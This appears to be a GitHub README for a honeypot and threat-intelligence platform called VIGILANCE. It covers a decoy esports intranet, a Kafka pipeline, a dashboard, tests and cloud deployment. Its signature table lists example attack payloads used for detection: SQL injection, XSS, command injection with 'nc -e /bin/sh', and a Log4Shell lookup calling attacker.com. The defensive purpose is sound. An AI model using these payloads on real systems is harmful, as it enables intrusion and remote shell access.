

<div align="center">

# VIGILANCE
### Enterprise Cyber Deception, Distributed Honeypot Sensor & Real-Time Threat Intelligence Platform

[](https://github.com/probanjee/Honeypot-System/actions)
[-success?style=for-the-badge&logo=vitest)](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/README.md#6-testing--quality-assurance-matrix)
[](https://kafka.apache.org/)
[](https://nodejs.org/)
[](https://fastapi.tiangolo.com/)
[](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/LICENSE)

<br/>

**[Architecture](#1-system-architecture)** •
**[Kafka Event Backbone](#2-apache-kafka-event-driven-backbone)** •
**[Decoy Intranet](#3-target-honeypot-nowhere-esports-intranet)** •
**[SOC Radar](#4-vigilance-soc-radar--analytics)** •
**[API Reference](#5-rest-api--sse-streaming-reference)** •
**[Testing (150/150)](#6-testing--quality-assurance-matrix)** •
**[Deployment](#7-cloud-deployment-guide)** •
**[Quick Links](#8-project-directory--quick-links)**

<br/>

[](https://vercel.com/new/clone?repository-url=https%3A%2F%2Fgithub.com%2Fprobanjee%2FHoneypot-System&root-directory=apps/dashboard)
&nbsp;&nbsp;
[](https://app.netlify.com/start/deploy?repository=https://github.com/probanjee/Honeypot-System)

</div>

---

## 1. System Architecture

VIGILANCE couples a public-facing decoy target (**Nowhere Esports Intranet**) with an event-driven telemetry processing pipeline that isolates adversaries, extracts high-fidelity forensics, streams events through **Apache Kafka**, enriches probes via **MaxMind GeoIP**, and displays telemetry on a live **SOC Radar Dashboard** using Server-Sent Events (SSE).

```
                     ┌─────────────────────────────────────────────────────────┐
                     │               PUBLIC INTERNET & ATTACKERS               │
                     └────────────┬───────────────────────────────┬────────────┘
                                  │ HTTPS                         │ Reconnaissance / Exploits
                                  ▼                               ▼
     ┌─────────────────────────────────────────────────────────────────────────┐
     │ DECEPTION TIER (Target Honeypot: Nowhere Esports Intranet)              │
     │ - Realistic tournament hub: brackets, rosters, live streams, fan portal │
     │ - Real passwordless Gmail OTP verification via Resend API               │
     │ - Animated hide/unhide password toggle & One Click Guest ID pass        │
     │ - Canary traps: /.env, /admin, SQLi, Log4Shell, Path Traversal          │
     │ - 14-Category regex signature detection & contextual scoring (0 - 100)  │
     │ - MongoDB Evidence Store: Un-executed raw HTTP forensic captures        │
     │ - Transactional Outbox Publisher (Guarantees at-least-once delivery)    │
     └────────────────────────────────────┬────────────────────────────────────┘
                                          │ Partition Key: source_ip
                                          ▼
     ┌─────────────────────────────────────────────────────────────────────────┐
     │ KAFKA EVENT BACKBONE (Apache Kafka 3.7+ in KRaft Mode)                  │
     │ ├── raw-attacks       (3 Partitions, Key: source_ip)                    │
     │ ├── enriched-attacks  (3 Partitions, Key: event_id)                     │
     │ ├── alerts            (1 Partition,  Key: alert_type)                   │
     │ └── raw-attacks-dlq   (1 Partition,  Key: partition-offset)             │
     └─────────────────┬─────────────────────────────────────┬─────────────────┘
                       │                                     │
                       ▼                                     ▼
     ┌─────────────────────────────────┐   ┌───────────────────────────────────┐
     │ PIPELINE & INGESTION TIER       │   │ ANALYTICAL & PRESENTATION TIER    │
     │ - Python Ingestion Worker       │   │ - FastAPI REST API & SSE Gateway  │
     │ - MaxMind GeoIP City Resolution │   │ - HMAC-signed cursor pagination   │
     │ - PostgreSQL 16 Canonical Store │   │ - VIGILANCE SOC Radar Dashboard   │
     │ - Idempotent deduplication      │   │   (React + Vite + Tailwind SPA)   │
     └─────────────────────────────────┘   └───────────────────────────────────┘
```

---

## 2. Apache Kafka Event-Driven Backbone

VIGILANCE operates Apache Kafka in **KRaft (Kafka Raft Metadata)** mode, eliminating external ZooKeeper processes while guaranteeing sub-millisecond event streaming.



### Kafka Topic Topography & Keying Specifications

| Topic Name | Partitions | Partition Key | Ordering Guarantee | Purpose |
| :--- | :---: | :--- | :--- | :--- |
| `raw-attacks` | **3** | `source_ip` | Strict temporal order per attacker | Ingests un-enriched sensor probe events from the Outbox Publisher. |
| `enriched-attacks`| **3** | `event_id` | Distributed load balancing | Carries canonical normalized attacks with GeoIP, signature, and scoring context. |
| `alerts` | **1** | `alert_type` | Global linear ordering | Dispatches high-severity critical incident notifications to SOC operators. |
| `raw-attacks-dlq` | **1** | `partition-offset` | FIFO audit order | Dead-letter queue isolating schema-violating or malformed payloads without blocking workers. |

### Distributed Reliability Guarantees
- **Transactional Outbox Pattern**: Web sensors save HTTP attack evidence and outbox metadata in the same MongoDB document transaction. The outbox reconciler claims pending records with 30-second leases, ensuring at-least-once publication even if a node crashes mid-request.
- **Idempotency Guarantee**: The Ingestion Worker records canonical `event_id` (UUIDv4) keys in PostgreSQL with `ON CONFLICT (event_id) DO NOTHING`. Reprocessed Kafka messages produce zero duplicate analytical metrics.
- **Poison Pill Isolation**: Corrupted JSON or schema-invalid messages are immediately routed to `raw-attacks-dlq` with committed partition offsets, preventing consumer lag from stalling the cluster.

---

## 3. Target Honeypot: Nowhere Esports Intranet

The decoy layer runs [`apps/nowhere-intranet`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet), an authentic esports tournament operations website.

```
+─────────────────────────────────────────────────────────────────────────────+
| NOWHERE ESPORTS INTRANET & FAN PORTAL                                       |
|                                                                             |
|  [VALORANT Masters]  [BGMI Pro Circuit]  [Free Fire League]  [CS2 Major]    |
|                                                                             |
|  * Real Passwordless Auth: 4-digit security code via Resend Mail API        |
|  * Interactive UI: Animated password visibility toggle (H.264 video blend)  |
|  * One Click Pass: "Join as a Guest ID ->" instant fan identity            |
|  * Fan & Player Passport Lounge: Daily drops, coin rewards, MVP voting      |
|  * Zero-Demo Aesthetic: 0 emojis, 0 fake markers, 100% production look      |
+─────────────────────────────────────────────────────────────────────────────+
```

### 14-Category Attack Signature Engine

The in-line signature engine inspects request paths, headers, query parameters, and request bodies (bounded to 4KB) across 14 threat categories:

| Rule Code | Threat Category | Example Intercepted Payloads |
| :--- | :--- | :--- |
| `SIG-SQLI-001` | SQL Injection | `' OR '1'='1`, `UNION SELECT null, username, password FROM users--` |
| `SIG-XSS-001` | Cross-Site Scripting | `<script>alert(document.cookie)</script>`, `<svg/onload=fetch(...)>` |
| `SIG-PATH-001` | Path Traversal | `../../../../etc/passwd`, `..\..\..\windows\win.ini`, `%2e%2e%2f` |
| `SIG-CMDI-001` | Command Injection | `; cat /etc/shadow`, `| whoami`, `$(id)`, `` `nc -e /bin/sh` `` |
| `SIG-L4S-001` | Log4Shell / JNDI | `${jndi:ldap://attacker.com/exploit}`, `${jndi:rmi://...}` |
| `SIG-CANARY-001`| Canary File Recon | `/.env`, `/.git/config`, `/wp-config.php`, `/id_rsa` |
| `SIG-ADMIN-001` | Admin Interface Probe| `/admin`, `/wp-login.php`, `/phpmyadmin`, `/actuator/health` |
| `SIG-SCAN-001` | Automated Scanners | `sqlmap/1.7`, `Nikto/2.1`, `Nuclei`, `Nmap Scripting Engine` |
| `SIG-SSRF-001` | SSRF & Metadata | `http://169.254.169.254/latest/meta-data/`, `http://metadata.google` |
| `SIG-SSTI-001` | Template Injection | `{{7*7}}`, `${7*7}`, `<%= 7*7 %>` |
| `SIG-AUTH-001` | Credential Brute-Force| Automated login cycling against `/login` and `/admin/login` |
| `SIG-BOT-001` | Malicious Crawlers | Python-requests, Go-http-client, Masscan header fingerprints |
| `SIG-DESER-001`| Insecure Deserialization | Java gadget chains, Python pickle headers (`cposix`), PHP serialization |
| `SIG-HDR-001` | Malformed Headers | Host header poisoning, smuggled HTTP requests, invalid chunk sizes |

### Contextual Scoring Formula

$$\text{Score} = \min\left(100, \max(\text{base\_scores}) + \sum \text{context\_modifiers}\right)$$

- **Canary Trap Access** (`/.env`, `/admin`): $+25$ points
- **Known Scanner Fingerprint**: Clamped to $\ge 85$ (HIGH)
- **Multi-Vector Chaining** (SQLi + Path Traversal): $+15$ points
- **Sensitive Data Redaction**: Passwords, authorization tokens, and API keys are SHA-256 hashed and redacted before persistence.

---

## 4. VIGILANCE SOC Radar & Analytics

The security analyst interface is powered by [`apps/dashboard`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard), a React 18 + Vite SPA communicating with the [`services/backend`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/backend) FastAPI server.

- **Real-Time Telemetry Feed**: Native W3C Server-Sent Events (`EventSource`) with automatic reconnection and stream resumption.
- **Global GeoIP Threat Map**: Visual distribution of attacks mapped by latitude and longitude with IP drill-down modals.
- **Deterministic HMAC Cursor Pagination**: Zero offset performance degradation when querying large attack ledgers.
- **Statistical Anomaly Detection**: 30-minute sliding window with Median Absolute Deviation (MAD) for spike discovery without false positives.

---

## 5. REST API & SSE Streaming Reference

Base URL: `http://localhost:8000/api/v1` (or your production cloud domain)

| Method | Endpoint | Description | Query Parameters | Response |
| :--- | :--- | :--- | :--- | :--- |
| `GET` | `/health` | Cluster & dependency health probe | — | `{ status: "healthy", version: "1.0.0" }` |
| `GET` | `/attacks` | HMAC-cursor paginated attack ledger | `limit`, `cursor`, `severity`, `rule_code`, `source_ip` | `PaginatedAttacksResponse` |
| `GET` | `/attacks/{event_id}` | Forensic deep-dive on single attack | — | `AttackDetailResponse` |
| `GET` | `/analytics/summary` | Windowed attack metrics & top attackers | `window` (`1h`, `24h`, `7d`, `30d`) | `SummaryAnalyticsResponse` |
| `GET` | `/stream/sse` | **Real-Time SSE Live Threat Stream** | — | `text/event-stream` (`event: attack`) |

---

## 6. Testing & Quality Assurance Matrix

The platform is backed by automated tests across all 4 tiers. **150 out of 150 tests pass**.

```
Total Test Suites: 4
Total Automated Tests: 150 Passed (100% Green)
```

| Component | Framework | Test Count | Key Capabilities Verified |
| :--- | :--- | :---: | :--- |
| **[`nowhere-intranet`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet)** | Vitest | **75 Passed** | Regex signature detection, contextual scoring, credential redaction, transactional outbox recovery, Kafka consumer offset commits, DLQ routing, honeypot canary routes (`/.env`, `/admin`, SQLi, Log4Shell, HTTP 413 body clamping). |
| **[`services/backend`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/backend)** | Pytest | **32 Passed** | Analytical queries, attack detail retrieval, UUID validation, HMAC cursor pagination bounds, SSE streaming broadcaster, health probes. |
| **[`services/ingestion`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/ingestion)** | Pytest | **30 Passed** | Idempotent PostgreSQL inserts (`ON CONFLICT`), GeoIP city resolution, schema migration validation, outbox publisher concurrency, broker failure recovery. |
| **[`apps/dashboard`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard)** | Vitest | **13 Passed** | SSE client connection state, live attack feed re-rendering, severity chart computations, summary analytics cards. |

### Running the Test Suites

```bash
# 1. Nowhere Esports Intranet (75 tests)
npm --prefix apps/nowhere-intranet test

# 2. Analytical Backend API (32 tests)
cd services/backend && pytest -q

# 3. Kafka Ingestion Worker (30 tests)
cd services/ingestion && pytest -q

# 4. SOC Radar Dashboard (13 tests)
npm --prefix apps/dashboard test -- --run
```

---

## 7. Cloud Deployment Guide

VIGILANCE supports two flexible cloud deployment topologies:

### Topology A: Full Vercel Deployment (Serverless Edge)

Both the **Nowhere Esports Intranet & Portal** and the **VIGILANCE SOC Radar** can be deployed to Vercel in minutes:

#### 1. Deploy the Nowhere Intranet & Portal to Vercel
1. Go to [vercel.com/new](https://vercel.com/new) and import `probanjee/Honeypot-System`.
2. Configure settings:
   - **Project Name**: `nowhere-esports-portal`
   - **Root Directory**: `apps/nowhere-intranet`
   - **Framework Preset**: `Other`
3. Environment Variables:
   - `RESEND_API_KEY`: Your Resend API key (`re_...`)
   - `MONGO_URI`: (Optional) Remote MongoDB Atlas connection string. If omitted, the intranet operates with an in-memory repository.
4. Click **Deploy**.

#### 2. Deploy the SOC Radar Dashboard to Vercel
1. Go to [vercel.com/new](https://vercel.com/new) and import `probanjee/Honeypot-System`.
2. Configure settings:
   - **Project Name**: `vigilance-soc-radar`
   - **Root Directory**: `apps/dashboard`
   - **Framework Preset**: `Vite`
   - **Build Command**: `npm run build`
   - **Output Directory**: `dist`
3. Environment Variables:
   - `VITE_API_BASE_URL`: The URL of your VIGILANCE Backend API (e.g., `https://api.yourdomain.com`).
4. Click **Deploy**.

---

### Topology B: Microsoft Azure + Vercel / Netlify (Recommended for Production)

Isolates the **VIGILANCE Defense Core & Decoy Intranet** on a single cloud host (**Microsoft Azure**), while serving the **SOC Dashboard Radar** over edge CDN (**Netlify** or **Vercel**).

```
[Netlify / Vercel] ────────► [Microsoft Azure Gateway (Port 80/443)]
SOC Radar Dashboard           ├── Nowhere Esports Decoy Site (Port 3000)
(Vite / React SPA)            └── FastAPI REST & SSE Backend (Port 8000)
                                   ├── Ingestion Worker (Python)
                                   ├── Apache Kafka (KRaft)
                                   ├── MongoDB 7.0 (Evidence)
                                   └── PostgreSQL 16 (Metrics)
```

#### Step 1: Launch on Microsoft Azure
1. Provision an **Azure Virtual Machine** (`Ubuntu 22.04 LTS`, size `Standard_B2s` or `Standard_D2s_v5`).
2. Allow inbound ports **80 (HTTP)**, **443 (HTTPS)**, and **22 (SSH)**.
3. SSH into your VM and run the automated setup script:
   ```bash
   git clone https://github.com/probanjee/Honeypot-System.git
   cd Honeypot-System
   chmod +x scripts/azure-setup.sh
   ./scripts/azure-setup.sh
   ```
   *The script automatically installs Docker, configures firewall rules, sets up `.env` with secure randomized database credentials, and launches all 7 containers via [`docker-compose.prod.yml`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/docker-compose.prod.yml).*

#### Step 2: Deploy SOC Radar to Vercel / Netlify
1. Connect `probanjee/Honeypot-System` on [Vercel](https://vercel.com) or [Netlify](https://netlify.com).
2. Set Root Directory to `apps/dashboard`.
3. Set `VITE_API_BASE_URL` to `http://<YOUR_AZURE_IP>`.
4. Click **Deploy**.

---

## 8. Project Directory & Quick Links

| Directory / Component | Purpose | Key Manifests |
| :--- | :--- | :--- |
| [`apps/nowhere-intranet`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet) | Decoy esports tournament operations & honeypot sensor | [`package.json`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet/package.json), [`Dockerfile`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet/Dockerfile), [`vercel.json`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/nowhere-intranet/vercel.json) |
| [`apps/dashboard`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard) | VIGILANCE SOC Radar real-time frontend | [`package.json`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard/package.json), [`vite.config.ts`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard/vite.config.ts), [`vercel.json`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard/vercel.json), [`netlify.toml`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/apps/dashboard/netlify.toml) |
| [`services/backend`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/backend) | FastAPI REST & SSE streaming server | [`requirements.txt`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/backend/requirements.txt), [`Dockerfile`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/backend/Dockerfile) |
| [`services/ingestion`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/ingestion) | Python Kafka consumer & GeoIP normalizer worker | [`requirements.txt`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/ingestion/requirements.txt), [`Dockerfile`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/services/ingestion/Dockerfile) |
| [`configs/honeypot-rules.yaml`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/configs/honeypot-rules.yaml) | 14-category regex signature engine rules | YAML configuration |
| [`deploy/nginx/nginx.conf`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/deploy/nginx/nginx.conf) | Production Nginx reverse proxy with SSE support | Nginx configuration |
| [`docker-compose.prod.yml`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/docker-compose.prod.yml) | 7-service production cloud compose | Compose v3.8 |
| [`scripts/azure-setup.sh`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/scripts/azure-setup.sh) | Automated 1-click Azure VM provisioning script | Bash script |
| [`.github/workflows/ci.yml`](file:///c:/Users/prosu/OneDrive/Desktop/Honeypot-System/.github/workflows/ci.yml) | Multi-service continuous integration workflow | GitHub Actions |

---

<div align="center">

**VIGILANCE Security Platform** • Created for enterprise deception engineering & threat intelligence research.

</div>
